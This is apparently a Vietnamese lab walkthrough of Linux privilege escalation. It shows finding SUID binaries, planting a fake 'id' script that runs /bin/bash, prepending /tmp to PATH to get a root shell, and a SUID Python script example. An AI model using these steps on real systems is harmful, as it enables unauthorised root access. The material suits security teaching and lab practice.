 Tìm các file có SUID 

```none
┌──(test㉿kali)-[/tmp]
└─$ find / -perm -u=s -type f 2>/dev/null | grep test
/tmp/test
```

Tạo 1 file 

```none
echo "/bin/bash" > id
chmod 777 id
```


```none
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Thêm đường dẫn `tmp` có chưa file id vào `$PATH` :

```none
$ export PATH=/tmp:$PATH
$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
```

Chạy file test:

```none
$ ./test
root@kali:/tmp# whoami
root

```

### Leo thang Python

```none
┌──(root💀kali)-[/tmp]
└─# cat test_python.py      
import os
os.system("ps")

┌──(root💀kali)-[/tmp]
└─# chmod u+s test_python.py 

┌──(root💀kali)-[/tmp]
└─# ls -la test_python.py   
-rwsr-xr-x 1 root root 26 Mar 29 21:06 test_python.py
```

```
$ python3 test_python.py
    PID TTY          TIME CMD
  14920 pts/5    00:00:00 sh
  16013 pts/5    00:00:00 sh
  16040 pts/5    00:00:00 python3
  16041 pts/5    00:00:00 sh
  16042 pts/5    00:00:00 ps

```
